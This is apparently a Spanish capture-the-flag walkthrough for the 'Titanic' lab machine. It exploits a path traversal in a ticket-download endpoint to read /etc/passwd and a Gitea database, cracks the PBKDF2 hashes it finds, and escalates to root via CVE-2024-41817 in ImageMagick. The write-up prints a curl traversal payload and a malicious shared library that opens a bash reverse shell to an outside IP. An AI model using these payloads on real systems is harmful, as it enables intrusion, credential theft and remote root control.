Maquina fácil y a la vez muy chula estaremos explotando la vulnerabilidad de LFI (Local File Inclusion) para poder leer archivos del servidor internos 

# Preparaciones 

Modifica tu /etc/hosts para que pueda resolver la maquina 



# Reconocimiento 

Usando Nmap empezaremos reconociendo puertos y servicios que tenga la maquina expuestos y que podamos acceder a ellos 

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.55 -oG PortsOpen

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

servicios:

```bash 
❯ nmap -sCV -p22,80 10.10.11.55 -oN PortsInfo

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Bien tenemos un servidor de Apache en el puerto 80 que aloja una pagina web y el amado puerto 22 para conectarse vía ssh al servidor 

## Visitando titinic.htb

Cuando entramos a la maquina podemos ver que tenemos una con temática de titanic, el cual consiste en obtener un boleto para subir 



la pagina es estática casi casi, pero tenemos el botón de "Book Your Trip" el cual nos muestra un formulario que nos pide datos para realizar la reserva, una vez terminemos de llenar los datos nos descargara un archivo .json que contiene nuestra información



# LFI 

La vulnerabilidad que se presenta es cuando descargamos el archivo .json, ya que apunta a un archivo existente de la maquina pero no lo limitaron a solamente esa carpeta 

Usando FoxyProxy para interceptar las petición con BurpSuite veremos como se realiza la descarga del documento



La primera petición que se intercepta es la nuestra , cuando damos clic en Submit envía los datos al servidor para crear el archivo .json



Si vamos a la siguiente petición (Forward) es la que descarga el archivo:



Esta petición la mandamos al Repeater y cambiamos el nombre del archivo para apuntar al /etc/passwd, este lo mostrara por ende podemos apuntar a archivos de la maquina para saber o descubrir información sensible 



Gracias al /etc/passwd podemos saber cuantos usuarios existen en la maquina en este caso solo son dos 

 ```bash
 root:x:0:0:root:/root:/bin/bash
 developer:x:1000:1000:developer:/home/developer:/bin/bash
```

por ende nuestro objetivo es developer (por cierto puedes apuntar a la flag pero no tiene chiste tener la flag si no podeos acceder al servidor )

Tenemos una dirección mas aparte de titanic.htb  , en el archivo de /etc/hosts podemos descubrir la dirección de dev.titanic.htb (Agrégalo a tu /etc/hosts para que resuelva la pagina)



Ahora bien veamos que tenemos en esa dirección

# Gitea 

Tenemos la aplicación de Gitea que es un GitHub pero de manera local, podemos encontrar información muy importante aquí, y es que aquí podeos ver como esta estructurado la pagina:



Si entramos al repositorio de **docker-config** podemos encontrar una ruta casi completa a donde apuntar **/home/developer/gitea/data** pero no tenemos un archivo así que tocara seguir buscando
 


SI buscamos rutas por defecto de GITea tenemos que la información de la base de datos se guarda en la siguiente ubicación **/home/developer/gitea/data/gitea/gitea.db** 

Per hacerlo desde BurpSuite no es lo mejor para esta ocasión:



Por eso usaremos Curl para realizar la petición y mover todo el contenido a un archivo 

 ```bash
❯ curl "http://titanic.htb/download?ticket=
../../../../../../../home/developer/gitea/data/gitea/gitea.db" > gitea.db
```

Y usando SQLite3 vemos el contenido:



Dentro de todas las tablas que tenemos la de **user** es la que nos interesa es la tabla de **user**
, pero antes debemos de conocer la estructura de la tabla y solamente seleccionar los datos que nos importan:



realizaremos la consulta para que solo nos muestren los datos del **id, name, email,passwd,passwd_hash_algo**, quedando de la siguiente numera:



Con esto tenemos el conocimiento de tres usuarios existente ahora toca saber si del servicio de GiTea o para conectarnos por el servicio de ssh hacia la maquina, pero si eres muy observador veras que las contraseñas no están en texto plano, si no mas bien cifradas, tenemos que revertirlas

## Rompiendo PBKDF2

La contraseñas usan el siguiente tipo de método de encriptación llamado PBKDF2 el cual es irreversibles pero si la contraseña es débil se puede romper por medio de fuerza bruta 

Investigando un poco caí en el siguiente repositorio de GtiHub https://github.com/f4dee-backup/gitea2hashcat, el cual nos facilita mucho las cosas 

El flujo de trabajo para romper las contraseñas es el siguiente 

Se extraen la información de la Base de Datos: 

```sql
SELECT name, passwd_hash_algo, salt, passwd FROM user;
```
Linea 39

Se identifica el tipo de cifrado que es PBKDF2:

```bash
 while IFS='|' read -r name algo salt passwd; do
      if [[ "$algo" == *"pbkdf2"* ]]; then
          IFS='$' read -r _ loop keyleno <<< "$algo"
          algo="sha256"
      else
```

Se convierte a base64 

```bash
      salt_b64="$(echo "$salt" | xxd -r -p | base64)"
      passwd_b64="$(echo "$passwd" | xxd -r -p | base64)"
```

Se convierte a Base64 para que se pueda realizar un ataque de fuerza bruta Hashcat 

## Uso de gitea2hascat

Bien toca ponerlo a prueba y saber si esto funciona de verdad:

- Primero clona el repositorio https://github.com/f4dee-backup/gitea2hashcat 
- Después darle permisos de ejecución al .sh
- Ejecuta el script de bash te pedirá la base de datos de GiTea
	- 
- Al terminar creara un archivo con la información que necesitamos para Hashcat
- 
- Mueve la información del usuario **developer** a otro archivo 
- Usando Hashcat vamos a romper la contraseña  
	
		(Nota los últimos números son la contraseña )

# Developer -> root


Una vez dentro veremos como elevar los privilegios a root



Tenemos la primera Flag en el directorio actual de directorio 

Para elevar privilegios nos moveremos a la ruta de /opt/script llamado **identify_images.sh** donde tendremos un script de bash, el cual ocupa Magick(Image Magick) 



La versión de Image Magick esta desactualizada, en este caso contamos con la versión **7.1.1-35**



Contamos con una vulnerabilidad basada en el siguiente CVE https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8 la vulnerabilidad es una ejecución de comandos 

## Explotación de CVE-2024-41817

Primero:
- Nos movemos a la dirección de : **/opt/app/static/assets/images**
- Ejecutamos lo siguiente(todo junto):

 ```bash
 gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("bash -c 'bash -i >& /dev/tcp/10.10.15.15/443 0>&1'");
    exit(0);
}
EOF
```

  - Nos movemos a la dirección donde esta el script llamado identify_images.sh
  - Nos ponemos en escucha para recibir la reverse shell como root 



Ejecutamos el script de indentify_image.sh

```bash 
sudo ./identify_image.sh
```

Y por el puerto donde estamos en escucha obtendremos nuestra reverse shell como root 



Imagen del proceso:

